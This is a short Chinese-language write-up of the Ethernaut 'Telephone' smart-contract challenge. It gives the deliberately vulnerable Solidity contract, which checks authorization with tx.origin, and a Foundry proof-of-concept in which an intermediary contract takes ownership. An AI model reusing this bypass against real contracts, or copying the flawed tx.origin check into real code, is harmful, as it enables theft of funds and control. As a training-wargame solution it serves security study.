

## Telephone

### 目标：

使自己成为合约的`owner`

### 思路：

读完源码发现关键条件：**`tx.origin != msg.sender`,**这代表必须写一个中间合约，不能直接调用攻击合约进行攻击，发现只要调用`changeOwner`函数即可使自己成为合约的`owner`，因此这道题的关键点是**不要直接在脚本中调用合约进行攻击，必须写一个攻击合约**

### 源码：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

### poc:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";

interface ITarget{
    function changeOwner(address _owner) external;
}

contract Middle_contract{
    ITarget public target = ITarget(0xc46062A35939052aE9721f66618c6c72e932a41E);
    function hack() external{
        target.changeOwner(msg.sender);
    }

}
contract Attack is Script{
    function run() external{

        vm.startBroadcast();

        Middle_contract middle_contract = new Middle_contract();
        middle_contract.hack();

        vm.stopBroadcast();
    }

}
```



